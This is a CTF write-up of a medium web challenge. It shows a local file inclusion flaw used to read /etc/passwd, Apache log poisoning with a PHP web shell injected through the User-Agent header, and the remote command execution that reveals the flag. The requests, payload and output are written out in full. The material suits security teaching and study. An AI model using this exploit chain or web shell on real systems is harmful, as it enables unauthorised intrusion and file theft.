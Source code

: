# TFC CTF

## WEB

### INCLUDE WHAT MATTERS.

**Difficulty:** Medium

**Statement:** Flag Format : TFCCTF{}
The flag file has a random name and it's in a random location .

***

On the website, we quickly detect an LFI flaw with the include logs:

![image](https://user-images.githubusercontent.com/49941629/182035020-b3665a6b-6605-443d-9a3d-aa965f8073d3.png)

In order to confirm the flaw, I will get the `/etc/passwd` file : `http://01.linux.challenges.ctf.thefewchosen.com:49412/?file=/etc/passwd`

![image](https://user-images.githubusercontent.com/49941629/182035123-5de0a972-4134-4cf0-b90b-4bf17fcb28c0.png)

Now I'm looking to see if we have access to the web server log files to perform a log poisoning attack.

I see that we can read the contents of the file `/var/log/apache2/access.log` : `http://01.linux.challenges.ctf.thefewchosen.com:49412/?file=/var/log/apache2/access.log`

So I will modify my HTTP request to add the PHP payload `<?php system($_GET['cmd']); ?>` in the user agent:

```
GET /?file=/var/log/apache2/access.log HTTP/1.1
Host: 01.linux.challenges.ctf.thefewchosen.com:49412
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 <?php system($_GET['cmd']); ?> Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```

Now, I just have to add `&cmd=` as a parameter to my query in order to perform RCE: `http://01.linux.challenges.ctf.thefewchosen.com:49412/?file=/var/log/apache2/access.log&cmd=id`

```
[30/Jul/2022:12:33:33 +0000] "GET /?file=/var/log/apache2/access.log HTTP/1.1" 200 772 "-" "Mozilla/5.0 uid=33(www-data) gid=33(www-data) groups=33(www-data) Safari/537.36"
```

I list the contents of the `/` directory: `http://01.linux.challenges.ctf.thefewchosen.com:49412/?file=/var/log/apache2/access.log&cmd=ls%20/`

```
[30/Jul/2022:12:33:33 +0000] "GET /?file=/var/log/apache2/access.log HTTP/1.1" 200 772 "-" "Mozilla/5.0 bin boot dev etc hidden_fl4g.txt home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var Safari/537.36"
```

I get the content of the flag : `http://01.linux.challenges.ctf.thefewchosen.com:49412/?file=/var/log/apache2/access.log&cmd=cat%20/hidden_fl4g.txt`

```
30/Jul/2022:12:33:33 +0000] "GET /?file=/var/log/apache2/access.log HTTP/1.1" 200 772 "-" "Mozilla/5.0 TFCCTF{LF1_1S_D4NG3R0US_4ND_L34DS_T0_RC3} Safari/537.36"
```

Flag: `TFCCTF{LF1_1S_D4NG3R0US_4ND_L34DS_T0_RC3}`
